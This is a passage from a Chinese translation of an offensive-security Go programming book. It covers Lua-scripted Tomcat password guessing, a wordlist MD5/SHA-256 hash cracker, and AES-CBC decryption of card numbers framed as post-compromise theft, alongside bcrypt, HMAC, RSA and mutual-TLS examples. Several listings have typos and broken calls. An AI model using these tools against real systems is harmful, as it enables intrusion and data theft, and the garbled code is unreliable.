    l.Push(lua.LNumber(resp.StatusCode))
    l.Push(lua.LBool(false))
    l.Push(lua.LString(""))
    return 3
}
```

`Listing 10-5`: 为`Lua`创建`get()`函数(`/ch-10/lua-core/cmd/scanner/main.go`)

与你的`head()`实现类似，你的`get()`函数将返回三个值：状态码、一个表示你正尝试访问的系统是否需要基础身份验证的值，以及任何错误信息。这两个函数之间唯一的区别是你的`get()`函数接受两个额外的字符串参数：用户名和密码。如果这些值中的任何一个被设置为非空字符串，你将假设必须进行基础身份验证。

现在，你们中的某些人可能在想，这些实现奇奇地具体，几乎到了抵消插件系统任何灵活性、可重用性和移植性的程度。这看起来就像这些函数是为一个非常特定的用例——即检查基础身份验证——而设计的，而不是为了通用目的。毕竟，你为什么不返回响应体或`HTTP`头呢？同样，你难道不会接受更健壮的参数来设置`cookie`或其他`HTTP`头，或者例如发送带有正文的`POST`请求吗？

简单就是答案。你的实现可以作为构建更健壮解决方案的起点。然而，创建该种解决方案将是一项更重大的工程，你在尝试处理实现细节时可能会丢失代码的意图。相反，我们选择以更基础、更不灵活的方式来处理，以便让通用的基础性概念更易理解。一个改进后的实现可能会暴露复杂的用户定义类型，以更好地代表例如`http.Request`和`http.Response`类型的全部内容。然后，与其从`Lua`接收并返回多个参数，你可以简化你的函数签名，减少接收和返回的参数数量。我们鼓励你完成这一挑战作为一项练习，更改代码以接收和返回用户定义的结构体而不是原始类型。

## 在 Lua 虚拟机中注册函数

到为止，你已经对打算使用的的必要`net/http`调用实现了封装函数，创建了这些函数以便`gopher-lua`可以使用它们。然而，你需要将这些函数注册到`Lua`虚拟机中。`Listing 10-6`中的函数集中了这一注册过程。

`const LuaHttpTypeName = "http"`

```go
func register(l *lua.LState) {
  mt := l.NewTypeMetatable(LuaHttpTypeName)
  l.SetGlobal("http", mt)
  // static attributes
  l.SetField(mt, "head", l.NewFunction(head))
  l.SetField(mt, "get", l.NewFunction(get))
}
```

`Listing 10-6`: 在`Lua`中注册插件(`/ch-10/lua-core/cmd/scanner/main.go`)

你首先定义一个常量，它将唯一标识你在`Lua`中创建的命名空间。在这种情况下，你使用`http`，因为那本质上是你正在暴露的功能。在你的`register()`函数中，你接受一个`lua.State`的指针，并使用该命名空间常量通过调用`l.NewTypeMetatable()`创建一个新的`Lua`类型。你将使用这个元表来跟踪`Lua`可用的类型和函数。

然后，你在元表中注册一个全局名称`http`。这使得`Lua`可以使用它。在同一个元表上，通过调用`l.SetField()`注册两个字段：`head`和`get`。这些是是给`Lua`可用的。正如你可能在`SetField()`调用中看到的，这些参数是`lua.State`类型的`func(*L.State) int`，这正是你让你在`Lua`虚拟机中注册函数。

## 编写主函数

最后，你需要创建你的`main()`函数，它将协调注册过程并执行插件脚本（`Listing 10-7`）。

`const PluginsDir = "../plugins"`

```go
func main() {
    var (
        l *lua.State
        files []os.FileInfo
        err error
        f string
    )

    l = lua.NewState()
    defer l.Close()

    register(l)

    if files, err := ioutil.ReadDir(PluginsDir); err != nil {
        log.Fatal(err)
    }

    for idx := range files {
        fmt.Println("Found plugin: " + files[idx].Name())
        f = fmt.Sprintf("%s/%s", PluginsDir, files[idx].Name())
        if err := l.DoFile(f); err != nil {
            log.Fatal(err)
        }
    }
}
```


## 注册并调用 Lua 插件

**Listing 10-7**: 注册并调用 Lua 插件 (`/ch-10/lua-core/cmd/scanner/main.go`)

不要太担心漏洞检查逻辑。它本质上与你在 Go 版本的插件中创建的逻辑相同；它在通过 `HEAD` 请求对应用程序进行指纹识别后，对 `Tomcat Manager` 门户进行基础密码破解。我们强调了两个最感兴趣的项目。

第一个是对 `http.head("10.0.1.20", 8080, "manager/html")` 的调用。基于你对状态元数据（state metadata）的全局和字段注册，你可以调用名为 `http.head()` 的函数而不会收到 Lua 错误。此外，你为该调用提供了 `head()` 函数期望从 `LState` 实例中读取的三个参数。Lua 调用期望返回值，这些返回值与你在退出 Go 函数之前推送到 `LState` 的数字和类型相对应。

第二个项目是你对 `http.get()` 的调用，它与 `http.head()` 调用类似。唯一的区别在于你向 `http.get()` 函数传递了用户名和密码参数。如果你回溯 `get()` 函数的 Go 实现，你会发现我们从 `LState` 实例中读取了两个额外的字符串。

## 测试 Lua 插件

这个示例并不完美，可以从额外的设计考虑中受益。但与大多数对抗性工具一样，最重要的是它能够工作并解决问题。运行你的代码证明了它确实如预期那样工作：

```
$ go run main.go

Found plugin: tomcat.lua

+] Endpoint requires Basic Auth. Proceeding with password guessing
```

现在你已经有了一个基础的可运行示例，我们鼓励你通过实现用户定义类型来改进设计，这样你就不需要在函数之间传递冗长的参数列表和参数。借此，你可能需要探索结构体的实例方法，无论是为了在 Lua 中设置和获取值，还是为了调用特定实现实例上的方法。在你处理这些工作时，你会发现你的代码将变得复杂得多，因为你将以一种 Lua 友好的方式封装你的大量功能。

## 总结

正如许多设计决策一样，解决问题有多种方法（殊途同归）。无论你是使用 Go 的原生插件系统还是 Lua 等替代语言，都必须考虑权衡。但无论你采用何种方法，你都可以轻松扩展 Go 来构建丰富的安全框架，特别是自从加入了其原生插件系统之后。

在下一章中，你将处理密码学这一丰富的课题。我们将演示各种实现方式和用例，然后构建一个 `RC2` 对称密钥暴力破解器。

# 第 11 章

## 实现与攻击密码学


一个关于安全敏感话题的对话如果没有探索密码学是不完整的。当组织使用密码学实践时，它们可以帮助保护其信息和系统的完整性、机密性和真实性。作为工具开发者，你可能需要实现密码学功能，也许用于 `SSL/TLS` 通信、双向认证、对称密钥加密或密码哈希。但开发者经常以不安全的方式实现加密函数，这意味着攻击性思维的人可以利用这些漏洞来危及敏感价值的数据，例如社会安全号码或信用卡号。

本章演示了 Go 中密码学的各种实现方式，并讨论了你可以利用的常见弱点。尽管我们提供了不同加密函数的介绍信息和代码块，但我们并没有试图探索加密算法的细微差别或其数学基础。率地说，那远超我们对密码学的兴趣（或知识）范围。正如我们之前说的，在没有所有者明确许可的情况下，不要在本章中对任何资源或资产尝试任何操作。我们包含这些讨论是为了学习，而不是为了协助非法活动。

## 复习基础密码学概念

在我们探索 Go 中的密码学之前，让我们讨论几个基础的密码学概念。我们会让它保持简短，以免你陷入沉睡。

首先，加密（目的是为了维护机密性）只是密码学的任务之一。通常来说，加密是一个双向函数，通过它你可以扰乱数据并随后将其解密以检索输入。加密数据的过程使其在被解密之前毫无意义。

加密和解密都涉及将数据和相应的密钥传递给加密函数。该函数输出加密后的数据（称为密文）或原始的可读数据（称为明文）。各种算法：对称加密在加密和解密过程中使用密钥，而非对称加密在加密和解密中使用不同的密钥。你可能使用加密来保护传输中的数据，或存储敏感信息（如信用卡号）以便以后解密，可能是为了未来购买时的方便或进行欺诈监控。

另一方面，哈希是一个数学上扰乱数据的单向过程。你可以将敏感信息传递给哈希函数以产生固定长度的输出。当你使用强算法（例如 `SHA-2` 家族中的算法）时，不同输入产生相同输出的概率极低。也就是说，发生碰撞的可能性很低。因为它们是不可逆的，哈希通常用作数据库中存储明文密码的替代方案，或执行完整性检查以确定数据是否发生了变化。如果你需要对相同输入的输出进行模糊或随机化，请使用盐（`salt`），这是一种在哈希过程中用于区分两个相同输入的随机值。盐在密码存储中很常见，因为它们允许多个碰巧使用相同密码的用户，仍然具有不同的哈希值。

密码学还提供了一种验证消息的方法。消息认证码（`MAC`）是从特殊的单向加密函数产生的输出。该函数消耗数据本身、一个密钥和一个初始化向量，产生一个不太可能碰撞的输出。消息发送者执行函数生成 `MAC`，然后将其作为消息的一部分。接收者本地计算 `MAC` 并与收到的 `MAC` 进行比较。匹配表明发送者拥有正确的密钥（即发送者是真实的），并且消息没有被更改（完整性得到了维护）。

好了！现在你应该已经足够的密码学知识来理解本章的内容。如有，我们将讨论与给定主题相关的细节。让我们先看看 Go 的标准加密库。

## 理解标准加密库

在 Go 中实现加密的美妙之处在于，你可能需要的大部分加密功能都属于标准库。其他语言通常依赖 `OpenSSL` 或第三方库，而 Go 的加密功能是官方仓库的一部分。这使得实现加密变得相对简单，因为你不需要安装污染开发环境的笨拙依赖。有两个独立的仓库。

自包含的 `crypto` 包包含了用于各种常用加密任务和算法的各种子包。例如，你可以使用 `aes`、`des` 和 `rc4` 子包来实现对称密钥算法；使用 `dsa` 和 `rsa` 子包进行非对称加密；使用 `md5`、`sha1`、`sha256` 和 `sha512` 子包进行哈希。这并不是详尽列表；还存在其他加密函数的子包。

除了 `crypto` 包之外，Go 还有一个官方扩展包，包含了各种补充加密功能。`golang.org/x/crypto`。该包的功能包含了额外的哈希算法、加密算法和工具。例如，该包包含了用于 `bcrypt` 哈希的 `bcrypt` 子包（哈希密码和敏感数据的更好更安全的替代方案）、用于生成合法证书的 `acme/autocert` 以及用于 SSH 的功能。

用于通过 `SSH` 协议进行通信的子包。

内置 `crypto` 包与补充性的 `golang.org/x/crypto` 包之间的唯一区别在于，`crypto` 包遵循了更严格的兼容性要求。此外，如果你想使用任何 `golang.org/x/crypto` 子包，首先需要通过以下命令安装该包：

```
$ go get -u golang.org/x/crypto/bcrypt
```

要查看官方 Go `crypto` 包中所有功能和子包的完整列表，请访问官方文档：`https://golang.org/pkg/crypto/` 和 `https://godoc.org/golang.org/x/crypto`。
这些章节深入探讨了各种实现。你将看到如何使用 Go 的 `crypto` 功能来执行一些“坏事”，例如破解密码哈希值、使用静态密钥解密敏感数据，以及破解较弱的加密算法。你还将使用这些功能创建使用 `TLS` 保护传输通信的工具、检查数据的完整性和真实性，并进行双向认证。

## 探索哈希

正如我们之前提到的，哈希是一种单向函数，用于根据变长度的输入产生固定长度且在概率上唯一的输出。你无法反转此哈希值以检索原始输入源。哈希通常用于存储在后续处理不需要其原始明文源的信息，或者用于跟踪数据的完整性。例如，存储密码的明文版本是一种糟糕的做法且通常也是没有必要的；相反，你应该存储哈希（理想情况下应加盐，以确保重复值之间的随机性）。

为了在 Go 中演示哈希，我们将查看两个示例。第一个示例尝试使用离线字典攻击破解给定的 `MD5` 或 `SHA-512` 哈希。第二个示例演示了 `bcrypt` 的实现。如前所述，`bcrypt` 是一种用于哈希密码等敏感数据的更安全的算法。该算法还包含一个降低其速度的特性，使得破解密码变得更加困难。

### 破解 MD5 或 SHA-256 哈希

列表 11-1 显示了哈希破解代码。（所有位于根根目录下的代码列表都存在于提供的 `github` 仓库 `https://github.com/blackhat-go/bhg` 中。）由于哈希无法直接反转，代码转而通过从单词列表中提取常用词生成自身的哈希，来猜测哈希的明文值，然后将生成的哈希值与你拥有的哈希进行比较。如果哈希匹配，则你可能猜中了明文值。

```go
var md5hash = "77f6e3524cd583d698d51fa24fdf4f"

var sha256hash = "95a5e1547df73abbdd4781b6c9e55f337c15d08884b11738c2727dbd887d4ced"

func main() {

	f, err := os.Open("wordlist.txt")

	if err != nil {

		log.Fatal(err)

	}

```

```go
defer f.Close()

scanner := bufio.NewScanner(f)

for scanner.Scan() {

	password := scanner.Text()

	hash := fmt.Sprintf("%x", md5.Sum([]byte(password)))

	if hash == md5hash {

		fmt.Printf("[++] Password found (MD5): %s\n", password)

	}

	hash = fmt.Sprintf("%x", sha256.Sum([]byte(password)))

	if hash == sha256hash {

		fmt.Printf("[++] Password found (SHA-256): %s\n", password)

	}

}
```

**列表 11-1**: 破解 `MD5` 和 `SHA-256` 哈希 (`https://ch-11/hashes/main.go`)

你首先定义两个持有哈希值的变量。一个是 `MD5` 哈希，另一个是 `SHA-256`。假设你是在渗透利用后获取了这两个哈希，并且你正试图确定在运行哈希算法后产生这些值的输入（明文密码）。你通常可以通过检查哈希本身的长度来确定算法。当你找到一个与目标匹配的哈希时，你就知道有了正确的输入。

你将尝试的输入列表存在于之前创建的字典文件中……通过 `Google` 搜索可以帮助你找到常用密码的字典文件。要检查 `MD5` 哈希，你通过在文件描述符上创建一个 `bufio.Scanner` 来打开并逐行读取字典文件。

1.  每行包含一个你想检查的单个密码值。
2.  将当前密码值传递给名为 `md5.Sum(input []byte)` 的函数。
3.  该函数产生产生原始字节形式的 `MD5` 哈希，因此你使用带有格式字符串 `%x` 的 `fmt.Sprintf()` 函数将其转换为十六进制字符串。毕竟，你的 `md5Hash` 变量由的是目标哈希的十六进制表示。转换你的值可以确保你可以比较目标哈希和计算出的哈希。
4.  如果这些哈希匹配，程序将向标准输出显示成功消息。

你执行一个相似的过程来计算和比较 `SHA-256` 哈希。该实现与 `MD5` 代码非常相似。唯一的真实区别是 `sha256` 包包含了额外的函数。你不是调用 `sha256.Sum()`（一个不存在的函数），而是调用 `sha256`。

### 实现 bcrypt

接下来的示例展示了如何使用 `bcrypt` 加密和验证密码。与 `SHA` 和 `MD5` 不同，`bcrypt` 专为密码哈希设计。它默认包含一个盐（`salt`），以及一个使其成为计算资源密集型的开销因子（cost factor）。该成本控制着迭代的次数。

**列表 11-2**: 比较 `bcrypt` 哈希 (`/ch-11/bcrypt/main.go`)

```go
package main

import (

	"log"

	"os"

	"golang.org/x/crypto/bcrypt"

)

var storedHash = "$2a$10$Zs3SzWjv/nF.KuVSUE.5UwtDrK6UvXcBpqHr84V"

func main() {

	var password string

	if len(os.Args) != 2 {

		log.Fatn("Usage: bcrypt <password>")

	}

	password = os.Args[1]

	hash, err := bcrypt.GenerateFromPassword([]byte(password), bcrypt.DefaultCost)

	if err != nil {

		log.Fataln(err)

	}

	log.Printf("hash = %s\n", hash)

	err = bcrypt.CompareHashAndPassword([]byte(storedHash), []byte(password))

	if err != nil {

		log.Println("[!] Authentication failed")

		return

	}

	log.Println("[+] Authentication successful")

}
```

`bcrypt.CompareHashAndPassword()` 会在后台为你执行哈希比较。它接受一个 `bcrypt` 编码的哈希和一个明文密码作为字节切片（byte slices）。该函数通过编码的哈希来确定成本（cost）和盐值（salt）。然后，它使用这些值配合明文密码生成一个 `bcrypt` 哈希。如果生成的哈希值与从存储的 `storedHash` 值中提取的哈希值匹配，你就知道提供的密码与创建 `storedHash` 时使用的密码一致。

这与你对 `SHA` 和 `MD5` 进行密码破解时使用的方法相同——将给定密码通过哈希函数，并将结果与存储的哈希进行比较。在这里，你不再像以前处理 `SHA` 和 `MD5` 那样显式地比较生成的哈希，而是检查 `bcrypt.CompareHashAndPassword()` 是否返回错误。如果你看到错误，说明计算出的哈希（因此用于计算哈希的密码）不匹配。

以下是两个程序运行示例。第一个显示了密码错误时的输出：

```
$ go run main.go someWrongPassword

2020/08/25 08:44:01 =

$2a$10$YSanG8Iye=NC7GDyLBLUO5ge/ng51I9TnaB1zTChW5q9gi09v00AC

2020/08/25 08:44:01 (!) Authentication failed
```

第二个显示了密码正确时的输出：

```
$ go run main.go someCompl3P@ssw0rd

2020/08/25 08:39:29 =

$2a$10$XFeUk.wKeePNAfJ1juXe8RaM/9EC1XZmqa8MoJB29hZRRYuNxz.

2020/08/25 08:39:29 [+] Authentication successful
```

细心入微的人可能会注意到，身份验证成功时显示的哈希值与你硬编码到 `storedHash` 变量的值并不匹配。

请记住，你的代码正在调用两个不同的函数。`GenerateFromPassword()` 函数使用随机盐值来生成编码的哈希。由于使用了不同的盐值，相同的密码会产生不同的哈希。这就是产生差异的原因。`CompareHashAndPassword()` 函数使用与存储哈希相同的盐值和成本执行哈希算法，因此生成的哈希与 `storedHash` 变量中的完全相同。

## 消息身份认证

现在让我们关注消息的身份认证。在交换消息时，你需要同时验证数据的完整性和远程服务的真实性，以确保数据是真实的且未被篡改。消息在传输过程中是否被未经授权的源篡改了？消息是由授权的发送者发送的，还是由任何实体伪造的？

你可以通过 Go 的 `crypto/hmac` 包来解决这些问题，该包实现了密钥哈希消息认证码（`HMAC`）标准。`HMAC` 是一种加密算法，允许我们检查消息是否被篡改并验证源的身份。它使用哈希函数并消耗一个共享密钥，只有授权生成有效消息或数据的双方才应该拥有密钥。没有此共享密钥的攻击者无法伪造出有效的 `HMAC` 值。

在某些编程语言中实现 `HMAC` 可能有点棘。例如，某些语言强制你逐字节地手动比较接收到的和计算出的哈希值。如果逐字节比较提前终止，开发者可能会无意中引入时间差差异；攻击者可以通过测量消息处理时间来推出预期的 `HMAC`。此外，开发者偶尔会认为 `HMAC`（消耗消息和密钥）等同于在消息前附加密钥密钥的哈希。然而，`HMAC` 的内部功能与纯哈希函数不同。通过不显式使用 `HMAC`，开发者会将应用程序暴露于长度扩展攻击之中，攻击者可以伪造消息和有效的 `MAC`。

对于 Gophers 来说，`crypto/hmac` 包使得以安全的方式实现 `HMAC` 功能变得相当简单让我们来看一个实现。注意，以下程序比典型的用例简单得多，典型的用例可能涉及某种网络通信和消息传递。在大多数情况下，你会对 `HTTP` 请求参数或通过网络传输的其他消息计算 `HMAC`。在列表 11-3 所示示例中，我们省略了客户端-服务器通信，仅关注 `HMAC` 功能。

```go
var key = []byte("some random key")

func checkMAC(message, recvMAC []byte) bool {

  mac := hmac.New(sha256.New, key)

  mac.Write(message)

  calcMAC := mac.Sum(nil)

  return hmac.Equal(calcMAC, recvMAC)

}

func main() {

  // 在实际实现中，我们会从网络源读取

  // 消息和 HMAC 值
```


# 对称加密示例

```go
message := []byte("The red eagle flies at 10:00")

mac, _ := hex.DecodeString("69d2c7b6fbbbcaeb72a3172f4662601d1f16acfb46339639ac8c10c8da64631d")

if checkMAC(message, mac) {
    fmt.Println("EQUAL")
} else {
    fmt.Println("NOT EQUAL")
}
}
```

**图 11-3：使用 HMAC 进行身份认证**

在这种形式下，加密和解密函数都使用相同的密钥。`Go`语言让对称加密变得非常直观，因为它在默认包或扩展包中支持大多数常用算法。

为了简洁起见，我们将对对称密钥加密的讨论限制在一个单一的实用示例上。假设你已经攻入了一个组织。你执行了必要的权限提升、横向移动和网络侦查，以获得对电子商务`Web`服务器和后端数据库的访问权限。数据库包含财务交易记录；然而，交易中使用的信用卡号显然经过了加密。你检查了`Web`服务器上的应用程序源代码，确定该组织正在使用高级加密标准（`AES`）加密算法。`AES`支持多种工作模式，每种模式都有略有不同的考虑因素和实现细节。这些模式不可互换；解密时使用的模式必须与加密时使用的模式相同。

在这种场景中，假设你已经确定应用程序在使用密码文块链（`CBC`）模式的`AES`。那么，让我们来写一个解密这些信用卡的函数（列表 11-4）。假设对称密钥被硬编码在应用程序中或在配置文件中静态设置。在学习此示例时，请记住你可能需要针对其他算法或密码对此实现进行调整，但这是一个很好的起点。

## 列表 11-4：AES 填充和解密 (`/ch-11/aes/main.go`)

```go
func unpad(buf []byte) []byte { 
// 假设长度和填充有效。应该添加检查
padding := int(buf[len(buf)-1])
return buf[:len(buf)-padding]
}

func decrypt(ciphertext, key []byte) ([]byte, error) {
    var (
        plaintext []byte
        iv []byte
        block cipher.Block
        mode cipher.BlockMode
        err error
    )

    if len(ciphertext) < aes.BlockSize {
        return nil, errors.New("Invalid ciphertext length: too short")
    }

    if len(ciphertext)%aes.BlockSize != 0 {
        return nil, errors.New("Invalid ciphertext length: not a multiple of blocksize")
    }

    iv = ciphertext[:aes.BlockSize]
    ciphertext = ciphertext[aes.BlockSize:]

    if block, err := aes.NewCipher(key); err != nil {
        return nil, err
    }

    mode = aes.NewCBCDecrypter(block, iv)
    plaintext = make([]byte, len(ciphertext))
    mode.CryptBlocks(plaintext, ciphertext)
    plaintext = unpad(plaintext)

    return plaintext, nil
}
```

代码定义了两个函数：`unpad()`和`decrypt()`。`unpad()`函数是一个汇集而工具函数，用于处理解密后移除填充数据。这是一个必要的步骤，但超出了本文讨论的范围。可以研究一下公钥加密标准（`PKCS`）#7 填充以获取更多信息。这对`AES`来说是一个相关话题，因为它确保了数据具有正确的块对齐。对于这个示例，只需知道你稍后需要该函数来清理数据即可。函数本身假设了一些事实，在现实场景中你可能希望显式验证这些事实。具体来说，你想确认填充字节的值是否有效、切片偏移是否有效，以及结果长度是否适当。

最有趣的逻辑存在于`decrypt()`函数 ② 中，它接收两个切片：你需要解密的密文和你用于解密的对称密钥。该函数执行了一些验证，以确认密文至少等于你的块大小 ③。这是一个必要的步骤，因为`CBC`模式加密使用初始化向量（`IV`）来引入随机性。这个`IV`就像密码哈希值一样，不需要保持秘密。`IV`的长度与单个`AES`块相同，在加密期间被附加在密文前面。如果密文长度小于预期的块大小，你就知道要么密文有问题，要么缺少了`IV`。你还检查密文长度是否为块大小的倍数 ④。如果不是，解密将彻底失败，因为`CBC`模式期望密文长度是块大小的倍数。

一旦完成验证检查，你就可以继续解密密文。如之前所述，`IV`附加在密文前面，因此你做的第一件事是从密文中提取`IV` ⑤。你使用`aes.BlockSize`常量获取`IV`，然后通过`ciphertext = ciphertext[aes.BlockSize:]`重新定义密文变量为密文的剩余部分；现在你将加密数据与`IV`分开了。

接下来，你调用`aes.NewCipher()`并传入你的对称密钥值 ⑥。这初始化了你的`AES`块密码，并将其赋值给名为`block`的变量。然后，你通过调用`cipher.NewCBCDecrypter(block, iv)`指示`AES`密码以`CBC`模式运行。你将结果赋值给命名变量`mode`。（`crypto/cipher`包包含其他`AES`模式的其他初始化函数，但你在这里只使用了`CBC`解密）。然后你调用`mode.CryptBlocks(plaintext, ciphertext)`来解密密文内容 ⑧ 并将结果存储在`plaintext`字节切片中。最后，你通过调用工具函数`unpad(d)` ⑨ 移除`PKCS` #7 填充。返回结果。如果一切顺利，这应该是信用卡号的明文值。

程序的示例运行产生了预期的结果：

```bash
$go run main.go
key = 1234567890123456
ciphertext = 78656c6c6f20576f72642064657
plaintext = 58656c6c6f20576f7264
```

## 非对称加密

这种非对称加密是有用途的。

对称加密的许多问题通过非对称加密（或公钥加密）得到了解决，它使用两个独立的但在数学上相关的密钥。一个公开可用，另一个保持私密。由私钥加密的数据只能通过公钥解密，而由公钥加密的数据只能通过私钥解密。如果私钥得到妥保护并保持私密，那么用公钥加密的数据就能保持机密性，因为你需要严密守护的私钥来解密。不仅如此，你还可以使用私钥来验证用户。例如，用户可以使用私钥对消息进行签名，公众可以使用公钥进行解密。

所以，你可能会问：“陷阱在哪里？如果非对称加密提供了这些保障，我们为什么还需要对称加密？”问得好！非对称加密的问题在于它的速度；它比对应的对称加密慢得多。为了兼得两者之长（避其劣），你经常发现组织使用混合方法：它们使用非对称加密进行初始通信协商，建立一个加密

它们创建并交换对称密钥（通常称为会话密钥）的通道。由于会话密钥相当小，使用公钥加密进行此过程的开销很小。客户端和服务器随后拥有会话密钥的副本，并用它来加速未来的通信。

让我们来看看公钥加密的几个常见用例。具体来说，我们将查看加密、签名验证和双向认证。

### 加密与签名验证

在第一个示例中，你将使用公钥加密来创建和解密消息。你还将使用逻辑对消息进行签名并验证该签名。为了简单起见，你所有的这些逻辑都包含单个`main()`函数中。这是向你展示实现它可以的核心功能和场景。在现实场景中，该过程会复杂一些，因为你可能有两个远程节点在相互通信。这些节点必须交换公钥。幸运的是，这种交换过程不需要像交换对称密钥那样的安全保证。记住，任何用公钥加密的数据只能用相关的私钥解密。因此，即使你执行中间人攻击来拦截公钥交换和未来的通信，你无法解密任何由相同公钥加密的数据。只有私钥才能解密它。

让我们看看列表 11-5 中的实现。在我们查看示例时，我们将详细说明逻辑和加密功能。

#### 列表 11-5: 非对称（或公钥）加密 (`/ch-11/public-key/main.go/`)

```go
func main() {
    var (
        err             error
        privateKey *rsa.PrivateKey
        publicKey  *rsa.PublicKey
        message, plaintext, ciphertext, signature, label []byte
    )

    if privateKey, err := rsa.GenerateKey(rand.Reader, 2048); err != nil {
        log.Fatal(err)
    }

    publicKey = &privateKey.PublicKey
    label = []byte("")
    message = []byte("Some super secret message, maybe a session key even")
    ciphertext, err = rsa.EncryptOAEP(sha256.New(), rand.Reader, publicKey, message, label)

    if err != nil {
        log.Fatal(err)
    }

    fmt.Printf("Ciphertext: %x\n", ciphertext)

    plaintext, err = rsa.DecryptOAEP(sha256.New(), rand.Reader, privateKey, ciphertext, label)

    if err != nil {
        log.Fatal(err)
    }

    fmt.Printf("Plaintext: %s\n", plaintext)

    h := sha256.New()
    h.Write(message)
    signature, err = rsa.SignPSS(rand.Reader, privateKey, crypto.SHA256, h.Sum(nil), nil)

    if err != nil {
        log.Fatal(err)
    }

    fmt.Printf("Signature: %x\n", signature)

    err = rsa.VerifyPSS(publicKey, crypto.SHA256, h.Sum(nil), signature, nil)

    if err != nil {
        log.Fatalf(err)
    }

    fmt.Println("Signature verified")
}
```

该程序演示了两个独立但相关的公钥加密函数：加密/解密和消息签名。你通过调用`rsa.GenerateKey()`函数生成公私钥对。你提供一个随机读取器和密钥长度作为函数的输入参数。假设随机读取器和密钥长度足以生成密钥，结果是一个`*rsa.PrivateKey`实例，它包含一个值值为公钥的字段。你现在有了一对可以工作的密钥。为了方便起见，你将公钥赋值给它自己的变量。

此程序每次运行时都会生成此密钥对。在大多数情况下（例如`SSH`通信），你只会生成一次密钥对，然后将密钥保存并存储到磁盘。私钥将保持安全，公钥将分发到终端。我们在这里跳过了密钥分配、保护和管理，仅关注加密函数。

现在你已经创建了密钥，可以开始使用它们进行加密。你通过调用`rsa.EncryptOAEP()`函数来实现，该函数接受一个哈希函数、一个用于填充和随机数的读取器、你的公钥、你想加密的消息以及一个可选的标签。该函数返回一个错误（如果输入导致算法失败）和我们的密文。你可以将相同的哈希函数、读取器、你的私钥、密文和标签传入`rsa.DecryptOAEP()`函数。该函数使用你的私钥解密密文并返回明文结果。

注意，你正在使用公钥加密消息。这确保了只有私钥持有者才有能力解密数据。接下来，你通过调用`rsa.SignPSS()`创建数字签名。你再次向它传递随机读取器、你的私钥、你正在使用的哈希函数、消息的哈希值以及代表附加选项的`nil`值。该函数返回任何错误和生成的签名值。就像人类的`DNA`或指纹，这个签名唯一地标识了签名者的身份（即私钥）。任何持有公钥的人都可以验证签名，不仅确定签名的真实性，还可以验证签名的完整性。

### 双向认证

```go
tlsConf *tls.Config
server *http.Server
)

http.HandleFunc("/hello", helloHandler)

if clientCert, err := ioutil.ReadFile(".../clientCrt.pem"); err != nil {
    log.Fataln(err)
}

pool := x509.NewCertPool()
pool.AppendCertsFromPEM(clientCert)

tlsConf := &tls.Config{
    ClientCAs: pool,
    ClientAuth: tls.RequireAndVerifyClientCert,
}
tlsConf.BuildNameToCertificate()

server := &http.Server{
    Addr: ":9443",
    TLSConfig: tlsConf,
}

log.Fataln(server.ListenAndServeTLS("serverCrt.pem", "serverKey.pem"))
```

**列表 11-6: 设置双向认证服务器 (`/ch-11/mutual-auth/cmd/server/main.go`)**

在`main()`函数外部，程序定义了一个`helloHandler`函数。正如我们在第 3 章和第 4 章中讨论过的，该处理程序接受一个`http.ResponseWriter`实例和`http.Request`本身。这个处理程序相当无聊。它记录了收到的客户端证书的通用名称（common name）。通过检查`http.Request`的`TLS`字段并深入证书的`PeerCert`数据来获取通用名称。该处理函数还会向客户端发送一条消息，表示身份验证成功。

但是，你如何定义哪些客户端是经过授权的，以及如何验证它们呢？这个过程相当顺利。首先，你从客户端之前创建的`PEM`文件读取客户端证书 3。由于可能存在多个授权的客户端证书，你创建了一个证书池并调用`pool.AppendCertsFromPEM(clientCert)`将客户端证书添加到你的池中 4。对于你想要验证的每个额外客户端，都要执行此步骤。

接下来，你定义你的`TLS`配置。你显式地将`ClientCAs`字段设置为你的池，并将`ClientAuth`配置为`tls.RequireAndVerifyClientCert` 5。此配置定义了你的授权客户端池，并要求客户端在允许继续之前正确地识别自己的身份。你调用`tlsConf.BuildNameToCertificate()`，以便客户端的通用名称和备用名称（生成该证书的域名）能够正确地映射到它们给定的证书 6。你定义了你的`HTTP`服务器，显式地选择了你的自定义配置 7，并通过调用`server.ListenAndServeTLS()`启动服务器，向服务器传递你之前创建的证书和私钥文件 8。注意，你没有在服务器代码的任何地方使用客户端的私钥。正如我们之前所说的，私钥保持私密；你的服务器将仅通过客户端的公钥来识别和授权客户端。这就是公钥加密的精妙之处。

你可以使用`curl`验证你的服务器。如果你生成并提供了一个虚假的、未经授权的客户端证书和密钥，你将收到一条详细的错误告知这一点：

```bash
$ curl -ik -X GET --badCrt.pem --key badKey.pem \
https://server.blackhat-go.local:9443/hello

curl: (35) gnutls_handshake() failed: Certificate is bad
```

你会在服务器端也会收到更详细的消息，类似于这样：

```
http: TLS handshake error from 127.0.0.1:61682: remote error: tls: unknown
certificate authority
```

相反，如果你提供了有效的证书以及与服务器池中配置的证书匹配的密钥，你将在成功身份验证时享受一个小小的光辉时刻：

```bash
$ curl -ik X GET --clientCrt.pem --key clientKey.pem \
https://server.blackhat-go.local:9443/hello

HTTP/1.1 200 OK
Date: Fri, 09 Oct 2020 16:55:52 GMT
Content-Length: 25
Content-Type: text/plain; charset=utf-8

身份验证成功
```

这条消息告诉你是服务器工作如预期。现在，让我们来看一个客户端（列表 11-7）。你可以在与服务器相同的系统上运行客户端，也可以在不同的系统上运行。如果在不同的系统上，你需要将`clientCrt.pem`传输到服务器，并将`serverCrt.pem`传输到客户端。

```go
func main() {
    var (
        err error
        cert tls.Certificate
```


# 客户端 TLS 配置

```go
serverCrt, body []byte

pool *x509.CertPool

tlsConf *tls.Config
```

```go
transport *http.Transport

client *http.Client

resp *http.Response
```

```go
if cert, err = tls.LoadX509KeyPair("clientCrt.pem", "clientKey.pem"); err != nil {
    log.Fatalln(err)
}
```

```go
if serverCert, err = ioutil.ReadFile("../server/serverCrt.pem"); err != nil {
    log.Fatalln(err)
}
```

```go
pool = x509.NewCertPool()
pool.AppendCertsFromPEM(serverCert)
```

```go
tlsConf = &tls.Config{
    Certificates: []tls.Certificate{cert},
    RootCAs: pool,
}
```

```go
transport = &http.Transport{
    TLSConfig: tlsConf,
}

client = &http.Client{
    Transport: transport,
}
```

```go
if resp, err = client.Get("https://server.blackhat-go.local:9443/hello"); err != nil {
    log.Fatalln(err)
}

defer resp.Close()

body, err = ioutil.ReadAll(resp.Body)

if err != nil {
    log.Fatalln(err)
}
```

```go
fmt.Printf("Success: %s\n", body)
}
```

列表 11-7: 客户端 (`/ch-11/mutual-auth/cmd/client/main.go`)

## 破解 RC2

